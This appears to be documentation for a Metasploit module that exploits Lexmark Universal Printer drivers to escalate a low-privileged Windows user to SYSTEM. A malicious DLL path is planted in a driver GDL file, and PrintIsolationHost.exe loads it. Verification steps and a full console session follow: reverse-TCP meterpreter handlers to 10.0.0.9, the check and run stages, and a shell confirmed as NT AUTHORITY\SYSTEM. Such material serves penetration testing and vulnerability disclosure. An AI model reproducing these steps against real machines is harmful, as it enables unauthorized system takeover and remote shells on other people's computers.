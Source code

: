 ## Vulnerable Application

Various Lexmark Universal Printer drivers as listed at [advisory TE953](http://support.lexmark.com/index?page=content&id=TE953)
allow low-privileged authenicated users to elevate their privileges to `SYSTEM` on affected Windows systems by modifying
the XML file at `C:\\ProgramData\\<driver name>\\Universal Color Laser.gdl` to replace the DLL path
to `unires.dll` with a malicious DLL path.

When `C:\\Windows\\System32\\Printing_Admin_Scripts\\en-US\\prnmngr.vbs` is then used to add the printer
to the affected system, `PrintIsolationHost.exe`, a Windows process running as `NT AUTHORITY\SYSTEM`,
will inspect the `C:\\ProgramData\\<driver name>\\Universal Color Laser.gdl` file and will load the
malicious DLL from the path specified in the file, which will result in the malicious DLL executing as `NT AUTHORITY\SYSTEM`.

Once this module is finished, it will use the `prnmngr.vbs` script to remove the printer it added.

## Verification Steps

1. Install a vulnerable Lexmark driver
2. Start `msfconsole`
3. Get a session with basic privileges
4. Do: `use exploit/windows/local/lexmark_driver_privesc`
5. Do: `set SESSION <sess_no>`
6. Do: `run`
7. You should get a shell running as `SYSTEM`.

## Options

### DRIVERNAME

Set `DRIVERNAME` to the specific Lexmark driver to attempt to exploit. The module will verify the driver is present. Example:

```
set DRIVERNAME Lexmark Printer Software G2 XL
```

## Scenarios

### Lexmark Printer Software G2 XL v2.2.0.0

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.0.9
lhost => 10.0.0.9
msf6 exploit(multi/handler) > set lport 1270
lport => 1270
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.9:1270
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Meterpreter session 1 opened (10.0.0.9:1270 -> 10.0.0.8:51814) at 2021-08-10 18:07:31 -0400

meterpreter > getuid
Server username: MOURNLAND\lowlevel
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/lexmark_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/lexmark_driver_privesc) > set session 1
session => 1
msf6 exploit(windows/local/lexmark_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/lexmark_driver_privesc) > set lhost 10.0.0.9
lhost => 10.0.0.9
msf6 exploit(windows/local/lexmark_driver_privesc) > set lport 1271
lport => 1271
msf6 exploit(windows/local/lexmark_driver_privesc) > check

[*] Lexmark driver published at oem3.inf
[*] Lexmark driver published at oem12.inf
[*] Found 2 possible options:
[*] 	Lexmark Printer Software G2
[*] 	Lexmark Printer Software G2 XL
[*] No user provided DRIVERNAME. Defaulting to "Lexmark Printer Software G2"
[*] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
msf6 exploit(windows/local/lexmark_driver_privesc) > set DRIVERNAME Lexmark Printer Software G2 XL
DRIVERNAME => Lexmark Printer Software G2 XL
msf6 exploit(windows/local/lexmark_driver_privesc) > run

[*] Started reverse TCP handler on 10.0.0.9:1271
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Lexmark driver published at oem3.inf
[*] Lexmark driver published at oem12.inf
[*] Found 2 possible options:
[*] 	Lexmark Printer Software G2
[*] 	Lexmark Printer Software G2 XL
[*] The user selected driver was in the driver store
[!] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
[*] Adding printer dgvUKSrm...
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Meterpreter session 2 opened (10.0.0.9:1271 -> 10.0.0.8:51830) at 2021-08-10 18:09:29 -0400
[*] Deleting printer dgvUKSrm
[*] Meterpreter session 3 opened (10.0.0.9:1271 -> 10.0.0.8:51831) at 2021-08-10 18:09:31 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
